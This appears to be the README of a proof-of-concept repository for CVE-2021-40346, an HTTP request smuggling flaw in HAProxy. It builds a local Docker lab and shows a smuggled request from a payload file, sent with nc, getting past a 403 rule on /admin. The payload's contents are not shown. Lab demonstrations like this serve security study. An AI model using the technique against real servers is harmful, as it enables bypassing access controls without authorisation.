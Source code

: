 # CVE-2021-40346
CVE-2021-40346 PoC (HAProxy HTTP Smuggling)

For educational purposes only

## Setup

```
$ docker build -t cve-2021-40346 .
$ docker run --name poc -p 8000:80 -d --rm -it cve-2021-40346
4941e9f23508b497e4cbe334a75e7cdb84c83478522ed85f48db3477f97a6fb4
```

## Test
Confirm `/admin` is denied.

```
$ curl http://localhost:8000
hello
$ curl http://localhost:8000/admin
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

You will not see `/admin` in the log. It means the request didn't reach the backend server since HAProxy denied it.

```
$ docker logs poc
server start at port 8000
/
```

Then, you can make sure it can be bypassed by payload.txt.

```
$ cat payload.txt | nc localhost 8000
HTTP/1.1 200 OK
content-type: text/plain
date: Wed, 08 Sep 2021 22:31:10 GMT
keep-alive: timeout=5
transfer-encoding: chunked

6
hello

0
```

You will find `/admin` in the log.

```
$ docker logs poc
server start at port 8000
/
/
/admin
```

